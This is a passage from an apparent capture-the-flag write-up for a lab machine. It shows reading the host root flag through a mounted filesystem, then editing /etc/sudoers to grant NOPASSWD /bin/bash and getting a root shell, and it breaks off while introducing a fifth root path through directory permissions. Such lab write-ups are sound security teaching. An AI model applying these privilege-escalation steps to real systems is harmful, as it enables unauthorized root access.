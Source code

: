 
The host root file system is at `/mnt/root`:

    
    
    /mnt/root # ls
    bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            swap.img        tmp             var             vmlinuz.old
    boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             sys             usr             vmlinuz
    

I can read `root.txt`:

    
    
    /mnt/root/root # cat root.txt 
    512fd442************************
    

There are many ways to turn this into a root shell on the host. For example, I
can edit `/etc/sudoers` to add a second line for robert. I will need to `chmod
+w sudoers` first (and ideally `chmod -w sudoers` once I’m done), as it’s
currently set to not writable, even by owner.

    
    
    robert ALL=(ALL) NOPASSWD:/usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    robert ALL=(ALL) NOPASSWD:/bin/bash 
    

Now I can exit the container, and run `sudo bash`:

    
    
    /mnt/root/etc # exit
    robert@obscure:~$ sudo /bin/bash
    root@obscure:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

This was patched at some (unknown) point since December 2019 by removing the
robert user from the lxd group.

### Path 5: Move BetterSSH Directory

When I originally posted this writeup, [jkr](https://twitter.com/ATeamJKR)
replied:

> Four ways to root and yet there is a fifth one: Move the BetterSSH folder
> out of the way and create your own BetterSSH directory with a proper script
> 🤪
>
> — jkr (@ATeamJKR) [May 9,
> 2020](https://twitter.com/ATeamJKR/status/1259143066868420609?ref_src=twsrc%5Etfw)

I took a quick look, and it’s a good lesson on Linux permissions.

There are two sets of permissions that matter here. The home directory of
robert, `/home/robert`, and the permissions on the directory `BetterSSH` in
that directory:
